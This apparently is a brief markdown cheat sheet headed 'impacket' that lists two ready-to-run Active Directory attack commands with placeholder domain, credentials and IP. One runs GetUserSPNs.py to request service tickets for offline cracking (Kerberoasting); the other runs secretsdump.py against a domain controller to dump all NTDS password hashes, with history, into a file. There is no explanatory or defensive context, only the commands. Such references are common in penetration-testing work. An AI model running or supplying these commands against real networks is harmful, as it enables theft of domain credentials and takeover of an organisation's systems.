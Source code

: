 # impacket

## GetUserSPNs.py

``` bash
GetUserSPNs.py -dc-ip 192.168.1.1 contoso.local/jdupond:'P@$$w0rd' -save
```

## secretsdump.py

``` bash
secretsdump.py -just-dc -user-status -history contoso.local/Administrator:'P@$$w0rd'@192.168.1.1 | tee secretsdump_dump_ntds_full_192.168.1.1.txt
```
